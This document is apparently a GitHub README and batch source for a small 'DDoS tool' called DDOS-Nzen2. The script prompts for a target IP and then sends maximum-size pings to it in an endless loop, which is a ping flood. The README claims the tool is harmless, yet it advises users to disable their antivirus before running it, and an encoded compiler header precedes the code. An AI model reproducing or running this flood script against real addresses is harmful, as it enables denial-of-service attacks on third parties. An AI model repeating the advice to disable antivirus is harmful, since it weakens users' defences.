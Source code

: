 # DDOS-Nzen2
A small DDos program that will (In theory) take down your old 2003 laptop.
It won't harm anyone, nor anything. 
Idk how you would take down a server with this, maybe running multiple instances of it...

Antiviruses DO flag this as a virus/threat, but in reality it's because I have no license with this.
If you do not believe me, just don't run the program!
I mean, It's not like it does anything.

If you do want to run the program, (Maybe benchmark a bunch of chinese off-brand Rasberry-Pie network adapters,
Just disable your antivirus while you run it.




:DOCUMENTATION:
This program was written in batch, and recompiled with BtE.

The first chunk of the code is a segment of the BtE API.
Random UUids coupled with some strings.

Next chunk is the fake loading screen, which I just added to make
the whole thing look more organized.
It echos a started message, (To log.txt) 
and then echos ping localhost, (To log.txt)
then there is a textbook set variable command, (Which then is echoed to log.txt)
and then a few danger messages,
The ddos actually happens.
It will repeat ping requests that will down the shields on your 2003 Arsenel Bird. ;)
BELKA DID EVERYTHING WRONG!!!

Code:

::[BtE Compiler]
::
::YAwzoRdxOk+EWAnk
::fBw5plQjdG8=
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSjk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAjk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFB5QRRCNAE+/Fb4I5/jHwfCCrB9QcMYQS8L806CyA+8e+kzocJIb02hmvO8DH1VdZhfL
::YB416Ek+ZW8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off
cls
title DDos Tool Nzen2- Loading
echo Started: >> log.txt
ping localhost >> log.txt
title DDos Tool Nzen2- Press anything to continue
pause
title Waiting input
goto PreAttack

:PreAttack
cls
echo ---Enter Attack IP---
set /p AttackIP= 
Echo Attack IP set to %AttackIP%
echo Attack IP set! >> log.txt
echo IP: >> log.txt
echo %AttackIP% >> log.txt
pause
goto Attacklaunch

:Attacklaunch
cls
echo FINAL CHECK: ARE YOU SURE
pause
title Launcher
goto Attack

:Attack
cls
pause goto DDos

:DDos 
:loop
ping %AttackIP% -l 65500 -w 1 -n 1
goto :loop
